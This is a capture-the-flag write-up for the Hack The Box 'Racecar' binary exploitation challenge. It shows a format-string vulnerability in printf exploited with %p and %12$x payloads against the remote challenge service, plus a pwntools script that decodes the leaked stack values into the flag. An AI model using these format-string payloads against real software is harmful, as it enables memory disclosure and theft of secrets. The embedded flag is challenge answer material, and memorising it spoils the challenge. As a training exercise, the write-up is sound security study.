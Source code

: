 ```yaml
---
title: "Racecar HTB [ PWN ]"
date: 2022-02-27T18:39:55-05:00
draft: false
---
```


Before starting the vulnerability search, we must first perform a basic analysis.

![image](https://user-images.githubusercontent.com/88755387/142025252-e61b2429-06f9-4464-94d7-e3cc8e7507e4.png)

If we look at the strings of the executable and filter by the word 'flag' we realize that there is a file called flag.txt which we assume is hidden.

![image](https://user-images.githubusercontent.com/88755387/142025391-0d68b387-fb14-46ab-948d-345e326b67a9.png)

We are going to debug the executable with the IDA tool.

![image](https://user-images.githubusercontent.com/88755387/142025485-6ad74b6f-29cc-400c-83aa-9f21c3f19d26.png)

Inside the `car_menu` function we have a file called `flag.txt` which will only be opened if the program flow enters `car_menu:loc_FC`. We know this because at that function a call is made to the `_printf` function after 'winning the race'.

Let's see what address the `_printf` function has:

![image](https://user-images.githubusercontent.com/88755387/142025864-4fa8907e-6335-42cc-a400-9be503ae2e00.png)

Before we continue we are going to create a file called 'flag.txt' as the one the program is looking for to read in the same directory where we are going to run the binary.

``` 
echo 'AAAA' > flag.txt
```

We run the binary in GDB and put a breakpoint in the vulnerable function `_printf`:

![image](https://user-images.githubusercontent.com/88755387/142026049-dfe69c2f-3ba4-48e9-8677-7f32f91c4da7.png)

Now we run the binary and enter 40x `%p` to display more information: 

```
gdb-peda$ run
Name: sth
Nickname: sth
> 2
> 1
> 2
> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

![image](https://user-images.githubusercontent.com/88755387/142026262-33deb92a-7566-47e2-a058-e2fd67259d86.png)

At the 12th position, there is a beginning of `flag.txt` — `AAAA` string which was input before. It seems like the flag is stored on the stack.

Now we have to leak the flag from the remote service. We use [direct parameter access input format string](https://kevinalmansa.github.io/application%20security/Format-Strings/) `%12$x` to leak `flag.txt` from a remote system.

```
nc 104.248.169.123 31242
[ ... ]
> %12$x
```

![image](https://user-images.githubusercontent.com/88755387/142026727-f38db53b-bb06-40c0-8c19-4a4bdb7685b0.png)

If we convert them to ASCII we will find the beginning of the flag:

```
7b425448 -> {BTH
4854427b -> HTB{
```

The next step is reversing the flag. As we know that the flag is between two '{}' we will look for the value of the closing brace in hexadecimal.

```
{ -> 7b
} -> 7d
```

Now that we know its value we will reverse the bytes that are inside the braces.

```
%x%x%x%x%x%x%x%x%x%x%x---FLAG: %p%p%p%p%p%p%p%p%p%p%p ---
```

![image](https://user-images.githubusercontent.com/88755387/142026897-d3eb1187-6f89-4b88-9aeb-ad6c30199a56.png)

The last thing left is to create a script to view the flag in ASCII:

```python
from pwn import *

flag = '0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f'
decoded_flag = []

for element in flag.split('0x')[1:]:
 decoded_flag.append(p32(int('0x' + element,16)))
 
print (b''.join(decoded_flag))
```

![image](https://user-images.githubusercontent.com/88755387/142027222-c9604f62-37df-4a97-996a-0b5eeb5d6241.png)